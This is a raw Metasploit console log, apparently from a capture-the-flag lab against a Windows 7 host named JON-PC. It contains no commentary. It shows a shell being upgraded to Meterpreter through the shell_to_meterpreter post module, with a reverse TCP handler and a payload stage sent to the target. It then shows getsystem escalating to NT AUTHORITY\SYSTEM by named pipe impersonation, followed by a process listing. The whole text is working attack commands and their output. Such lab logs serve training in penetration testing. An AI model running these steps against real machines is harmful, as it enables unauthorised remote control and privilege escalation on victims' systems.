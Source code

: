 ```bash
Module options (post/multi/manage/shell_to_meterpreter):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   HANDLER  true             yes       Start an exploit/multi/handler to receive the connection
   LHOST                     no        IP of host that will receive the connection from the payload (Will try to auto detect).
   LPORT    4433             yes       Port for payload to connect to.
   SESSION                   yes       The session to run this module on.

msf5 post(multi/manage/shell_to_meterpreter) > set SESSION 1
SESSION => 1
msf5 post(multi/manage/shell_to_meterpreter) > run

[*] Upgrading session ID: 1
[*] Starting exploit/multi/handler
[*] Started reverse TCP handler on 10.10.179.6:4433 
[*] Post module execution completed
msf5 post(multi/manage/shell_to_meterpreter) > 
[*] Sending stage (176195 bytes) to 10.10.72.117
[*] Meterpreter session 2 opened (10.10.179.6:4433 -> 10.10.72.117:49205) at 2021-11-27 06:56:43 +0000
[*] Stopping exploit/multi/handler
msf5 post(multi/manage/shell_to_meterpreter) > sessions -l

Active sessions
===============

  Id  Name  Type                     Information                                                                       Connection
  --  ----  ----                     -----------                                                                       ----------
  1         shell x64/windows        Microsoft Windows [Version 6.1.7601] Copyright (c) 2009 Microsoft Corporation...  10.10.179.6:4444 -> 10.10.72.117:49191 (10.10.72.117)
  2         meterpreter x86/windows  NT AUTHORITY\SYSTEM @ JON-PC                                                      10.10.179.6:4433 -> 10.10.72.117:49205 (10.10.72.117)

msf5 post(multi/manage/shell_to_meterpreter) > sessions -i 2
[*] Starting interaction with 2...

meterpreter > 
meterpreter > getsystem
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
meterpreter > ps

Process List
============

 PID   PPID  Name                  Arch  Session  User                          Path
 ---   ----  ----                  ----  -------  ----                          ----
 0     0     [System Process]                                                   
 4     0     System                x64   0                                      
 416   4     smss.exe              x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\smss.exe
 428   712   svchost.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\svchost.exe
 564   556   csrss.exe             x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\csrss.exe
 612   556   wininit.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\wininit.exe
 624   604   csrss.exe             x64   1        NT AUTHORITY\SYSTEM           C:\Windows\System32\csrss.exe
```